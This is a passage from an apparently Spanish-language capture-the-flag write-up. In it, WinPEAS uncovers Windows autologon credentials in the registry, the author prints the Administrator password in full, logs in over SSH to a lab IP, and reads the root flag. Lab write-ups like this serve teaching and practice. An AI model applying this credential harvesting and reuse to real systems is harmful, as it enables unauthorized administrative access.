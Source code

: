 WinPEAS detecta claves en el registro de Windows:

Se observan:

```bash
DefaultUserName : Administrator
DefaultPassword : Yhk}QE&j<3M
```

![](../img/8bfba96635c329670255a8f36634fcb6.png)

💥 ¡Contraseña del usuario **Administrator** descubierta!

## 🔐 6. Acceso como `Administrator` por SSH

Con las credenciales encontradas:

```bash
ssh administrator@10.129.171.231
```

(Usando `Yhk}QE&j<3M` como contraseña)

## 📂 7. Lectura de la flag `root.txt`

Desde la sesión como `Administrator`, navegamos al escritorio:

```bash
cd C:\Users\Administrator\Desktop
type root.txt
```
